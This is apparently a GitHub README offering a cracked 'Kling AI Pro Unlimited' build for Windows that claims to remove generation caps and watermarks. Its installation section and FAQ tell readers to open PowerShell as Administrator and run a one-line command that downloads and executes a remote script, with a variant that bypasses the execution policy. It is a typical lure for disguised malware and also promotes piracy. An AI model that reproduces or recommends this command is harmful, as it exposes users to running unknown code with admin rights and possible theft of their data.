

<div align="center">


<br>


# Kling AI Pro Unlimited
**Pro unlimited · Long-form video · Priority generation queue**
<br>
Premium · Unlocked · Full build · Windows



**Kling AI Pro — generative video AI for text-to-video, image animation and cinematic clips with extended duration and priority rendering.**

</div>

---

> Pro Unlimited removes clip length and daily generation caps — produce longer cinematic sequences, animate stills and export high-resolution video without watermark limits.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🎬 **Text-to-video** — Turn prompts into short films with camera motion.
- 🖼️ **Image animation** — Bring photos and art to life with natural movement.
- ⏱️ **Extended duration** — Longer outputs than free tier allows.
- 🚀 **Priority queue** — Faster generation during peak demand.
- 📤 **HD export** — Higher resolution downloads for social and edit pipelines.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 2 GB free space.
</details>


TAGS
kling-ai, ai-video, generative-ai, text-to-video, creative, windows, software, media, animation, tools
